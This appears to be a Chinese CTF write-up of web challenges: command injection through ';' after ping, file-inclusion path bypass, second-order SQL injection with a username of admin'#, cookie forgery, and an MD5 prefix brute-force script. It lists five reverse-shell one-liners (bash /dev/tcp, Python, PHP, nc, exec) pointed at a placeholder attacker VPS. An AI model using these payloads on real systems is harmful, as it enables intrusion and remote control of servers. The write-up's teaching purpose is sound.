


### 命令执行


无题目描述，拿到此题时，猜想是命令执行，当输入`ipconfig`,`ifconfig`命令的时候，给的提示是`get out Hacker`,按照`input`框说的给出`ip`,输入`ping 127.0.0.1`，发现结果变了如下图


发现命令是能跑起来，并且没有错误，同时使用burp跑了一下后台目录，发现有`flag.php`文件，但是访问`/flag.php`并没有回显，但是状态码是200，则证明是一个`php`的脚本，没有任何html相关的代码

在命令执行部分，只能访问`ip`才会被探测到，那么可以使用`;`,`&&`,`||`等执行第二条命令

构造payload

```shell
ping 1.1.1.1;ifconfig
```

发现回显`get out hacker`,猜想是有过滤，只保留一个关键字，将`ping`这个关键字去掉，发现没有被拦截，出现以下字符



那么猜想肯定是命令肯定是执行了的，因为服务器环境是`linux`，可以使用`ping 127.0.0.1`来查看是否执行了命令，因为在`linux`中如果不中止该命令，则会一直`ping`

```shell
-e 1.1.1.1;ping 127.0.0.1
```


说明一直在执行`ping`命令，那么服务器既然能成功执行`;`后面的命令，那么可以在`vps`上反弹shell

#### bash 反弹

```shell
bash -i >& /dev/tcp/<your_vps>/<your_port> 0>&1
```

#### python 一句话反弹

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_vps>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php 一句话反弹

```shell
php -r '$sock=fsockopen("<your_vps>",<your_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### NC命令反弹

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_vps> <your_port> >/tmp/f
```

#### exec 反弹

```shell
0<&196;exec 196<>/dev/tcp/<your_vps>/<your_port>; sh <&196 >&196 2>&196
```

因为此页面是`php`搭建的，所以使用`php` 一句话反弹shell，在`vps`上监听5000端口，在web页面执行`php`一句话反弹shell,如下图


经过试验，服务端没有python环境，能反弹shell回来的只有`php`一句话 反弹，`nc`命令反弹

#### 文件重定向

已知存在`flag.php`,可以将`flag.php`里的内容重定向到当前目录的`*.txt`文件中

```shell
cat flag.php > 1.txt
```

然后访问该`1.txt `就能看见`flag.php`里的内容




### 文件包含


打开F12查看`script`的`src`引入文件的方式并不是直接引入文件，而是使用`download.php?f=`的方式包含文件来引入文件，所以直接访问该接口包含文件

#### 相对路径包含文件


#### 绝对路径包含文件


flag文件在根目录下，并且代码中对`../`做了`replace`所以采用双写绕过，很可惜没有该服务器未开启远程文件包含，所以能做的事太少了

### 垂直越权

一般控制用户的权限都在后台，后台一般是放在cookie里或者发送隐藏的JWT到前台，以做到控制权限

创建一个普通用户`admin'#`，尝试二次注入攻击，猜想在修改密码处执行的`sql`语句是

```sql
update users set password = '' where username = ''
```

二次注入攻击会将admin用户的密码修改了，执行的`sql`语句是

```sql
update users set password = '123456' where username = 'admin'#'
```

`#`直接将单引号注释，达到闭合前面的`'`，尝试之后，发现修改的是`admin'#`的密码

查看是否可以垂直越权，抓包发现`cookie`处的`PHPLOG`很可疑，末尾要么是7，或者是77，和`base64`编码的`=`,`==`很类似，猜想是将`username`进行`base64`编码之后，再加上`'='——'7'`的偏移量-6

`base64`编码中只存在 A-Z、a-z、0-9、+、/  、=`ASCII`字符，对其进行从小到大的排列，将admin进行编码，再加上偏移量，加上偏移量如果不在base64编码中，则在A-Z，a-z，0-9循环，如4加上偏移量不是base64编码，当`/`结束之后，则循环再从z开始

修改之后则发现，修改密码成功，最后登入系统，拿到flag


### 代码审计

#### MD5 截断比较验证

```php
<?php
include "flag.php";
highlight_file(__FILE__);
if(!isset($_REQUEST['password'])){
    $content="submit password please!<br />\n";
    die($content);
}
$m=md5($_REQUEST['password']);
if(strtolower(substr($m,0,6))==='aaaaaa'){
    echo $flag;
}else{
    echo "what's the fuck?";
}
?>
```

将参数password进行MD5，hash，得到一串hash值，并从0位置截取6位字符（`strtolower`函数将字符转换为小写）为`'aaaaaa'`,如果相等则输出flag

直接上python脚本

```python
import hashlib
dict = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'


def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()


for i in dict:
    for j in dict:
        for k in dict:
            for l in dict:
                for o in dict:
                    x = i + j + k + l + o
                    md5Code = md5(x)
                    if md5Code[:6] == 'aaaaaa':
                        print x
                    else:
                        continue
```


